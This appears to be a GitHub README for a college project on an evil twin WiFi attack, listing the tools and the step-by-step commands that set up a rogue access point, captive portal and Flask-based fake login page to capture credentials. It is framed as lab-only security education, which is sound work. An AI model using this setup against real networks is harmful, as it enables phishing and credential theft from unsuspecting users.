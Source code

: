 # Social-Engineering: WiFi Spoofing (Evil Twin) Attack
This repository contains a college project demonstrating a WiFi Spoofing (Evil Twin) Attack. The goal was to simulate how a malicious access point in a public setting (like an airport or café) can redirect users to a captive portal to intercept credentials.

⚠️ **Ethical Hacking Disclaimer**:
This project is for educational and research purposes ONLY. It was conducted in a controlled lab environment on test devices. These techniques should not be used for any malicious or illegal activities. Understanding these attacks is key to building stronger network defenses.

## Project Overview
This demonstration uses a USB WiFi adapter to create a malicious wireless access point. When a user connects, their device's built-in Captive Portal Detection (CPD) automatically sends a test request (typically to a port 80 URL) to check for internet access.

Our setup detects this request using Nodogsplash and intercepts it, serving a fake login page hosted on a Python Flask server. After the user submits their "credentials," they are granted internet access, unaware their information has been captured.

## Technologies Used

Hardware: ALFA AWUS036ACS --> USB WiFi adapter capable of access point mode

Hotspot: hostapd --> Used to create the malicious wireless hotspot

DNS & DHCP: dnsmasq --> Assigns IP addresses to connecting devices and handles DNS requests

Captive Portal: Nodogsplash --> Used to redirects all new connections to fake login page

Phishing Server: Flask (Python) --> Python web framework used to host the fake login page and credential harvester

Network Management: iptables, sysctl, iw --> Linux kernel utilities to manage packet forwarding and network address translation

Environment: Kali Linux

## Commands Used:
sudo ip link set wlan0 down ----------> Set USB adapter interface down

sudo iw dev wlan0 set type __ap ----------> Set adapter to be in access point mode for our hotspot

sudo ip link set wlan0 up ----------> Set USB adapter interface up

sudo ip addr flush dev wlan0 ----------> Clear out any IP address associated to our adapter interface

sudo ip addr add 10.10.0.1/24 dev wlan0 ----------> Add 10.10.0.1 IP address to our USB adapter interface

sudo hostapd hostapd.conf ----------> Start up our WiFi hotspot

sudo dnsmasq -C dnsmasq.conf ----------> Launch our DNS and DHCP server

sudo sysctl -w net.ipv4.ip_forward=1 ----------> Enable IP forwarding for router to forward packets

sudo iptables -P FORWARD ACCEPT ----------> Update Linux kernel firewall to accept forwarding traffic

sudo python3 PhishingServer2.py ----------> Launch our Flask web server with credential harvester

sudo nodogsplash ----------> Launch our captive portal webpage
